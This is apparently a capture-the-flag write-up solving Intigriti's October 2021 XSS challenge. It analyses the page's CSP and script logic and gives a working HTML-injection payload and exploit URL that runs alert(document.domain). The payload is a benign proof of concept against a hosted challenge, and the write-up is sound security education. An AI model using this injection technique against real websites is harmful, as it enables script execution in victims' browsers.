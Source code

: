 ```yaml
---
title:  Intigriti's October XSS challenge 
date: 2021-09-3
author: 1nt3rc3pt0r
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - CTF
 - Labs
tags:
 - XSS
 - Client Side
---
```


**tl;dr**

+ HTML injection to XSS `html=</h1></div><code id=intigriti><b><i(('>&xss=));alert(document.domain)`
<!--more-->

**Challenge Author:** [0xTib3rius](https://twitter.com/0xTib3rius)

**Hosted Challenge:** [here](https://challenge-1021.intigriti.io/challenge/challenge.php)

## Challenge Description 

Find a way to execute arbitrary javascript on this page and win Intigriti swag.

```
The solution...

    Should work on the latest version of Chrome and FireFox.
    Should execute alert(document.domain).
    Should leverage a cross site scripting vulnerability on this domain.
    Shouldn't be self-XSS or related to MiTM attacks.
    Should be reported at go.intigriti.com/submit-solution.
```


## Solutions


Looking into Source

### CSP

`default-src 'none'; script-src 'unsafe-eval' 'strict-dynamic' 'nonce-f48c09cf37317ddd2191e934acf68955'; style-src 'nonce-c89004c13cf2feff4e3fe90c26c8aec9'`

here in CSP we have nonce so direct injection of script tag not possible and unsafe-eval which allows the use of eval() and similar methods for creating code from strings.

``` javascript
window.addEventListener("DOMContentLoaded", function () {
        e = `)]}'` + new URL(location.href).searchParams.get("xss");
        c = document.getElementById("body").lastElementChild;
        if (c.id === "intigriti") {
          l = c.lastElementChild;
          i = l.innerHTML.trim();
          f = i.substr(i.length - 4);
          e = f + e;
        }
        let s = document.createElement("script");
        s.type = "text/javascript";
        s.appendChild(document.createTextNode(e));
        document.body.appendChild(s);
      });
```

When Dom contents is loaded variable `e ` gets assigned with `)]} + user input` and it create a script tag and appends the contents of variable `e` which means we can possibly get XSS But `)]}` causes syntax error which prevents from further execution of JS.

Checking the if condition it is clear that we could append contents in front of variable e `e = f + e;` but this is only possible when `c.id === "intigriti"`.If we are able to manipulate e as `((')]}'));alert(document.domain)` script get executed and we get XSS.

My initial idea was to embed the whole `<div id="container">` using `<img src='` but it failed due to `<div class="a">'"</div>` where it closes the single quote .Then using `<iframe id="intigriti" srcdoc=' `i was able to control c = document.getElementById("body").lastElementChild; but not l = c.lastElementChild; which was null.

when my html input is `</h1></div><code id=intigriti>` script tag renders as `<script type="text/javascript">pan>)]}'null</script>` where `pan` refers to span is the last element of `<div id="container">`

when my html input is `</h1></div><code id=intigriti><b>` the `<div id="container">` got rendered inside the bold tag this is because browser trying to fix unclosed tag and finally ends messing up. Now script tag rendered as `<script type="text/javascript">div>)]}'null</script>`

When i added one more tag with existing html ie `</h1></div><code id=intigriti><b><i>` script tag rendered as `<script type="text/javascript"></i>)]}'null</script>` now we have control over rendering script tag.

This happens because `<i>` got rendered inside `<b>`  and javascript selected it as lastElementChild.


### Payload:
 - `html=</h1></div><code id=intigriti><b><i(('>` 
 - `xss=));alert(document.domain);` 

### Final Exploit:

`https://challenge-1021.intigriti.io/challenge/challenge.php?html=</h1></div><code id=intigriti><b><i(('>&xss=));alert(document.domain);`


## Rating:

9/10

